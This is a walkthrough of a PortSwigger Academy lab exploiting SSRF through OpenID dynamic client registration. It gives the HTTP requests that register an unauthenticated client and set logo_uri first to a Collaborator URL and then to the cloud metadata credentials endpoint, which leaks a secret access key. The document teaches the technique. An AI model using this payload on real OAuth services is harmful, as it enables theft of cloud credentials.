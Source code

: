 # SSRF via OpenID dynamic client registration

## Description

[This lab](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration) allows client applications to dynamically register themselves with the `OAuth` service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the `OAuth` service, which exposes a potential vector for SSRF. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter`. Browse to `https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.

```text
https://oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net/.well-known/openid-configuration
```

![Oauth](../../_static/images/oauth12.png)

2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

3. Send the request. 

![Oauth](../../_static/images/oauth13.png)

You have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.

4. Using Burp, audit the OAuth flow and notice that the **Authorize** page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. From the Burp menu, open the Burp Collaborator client and click **Copy to clipboard** to copy a Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property and paste your Collaborator URL as its value. The final request should look something like this:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://ayc1v2jr1ayrplf516zakprhe8kz8pwe.oastify.com"
}
```

7. Send the request to register a new client application and copy the `client_id` from the response.

```text
"client_id":"RnZsZfMVpfPS3fvIwXoY6",
```

8. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.

![Oauth](../../_static/images/oauth14.png)

9. Go to the Burp Collaborator client dialog and check for any new interactions. 

![Oauth](../../_static/images/oauth15.png)

There is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
10. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:

```text
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

11. Send this request and copy the new `client_id` from the response.

```text
"client_id":"lswpWbRUl4rUzN4GYG8js",
```

12. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.

![Oauth](../../_static/images/oauth16.png)

13. Use the **Submit solution** button to submit the access key and solve the lab.

![Oauth](../../_static/images/oauth17.png)

## Exploitability

An attacker will need to log in; and then craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the `OAuth` provider's cloud environment.

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._
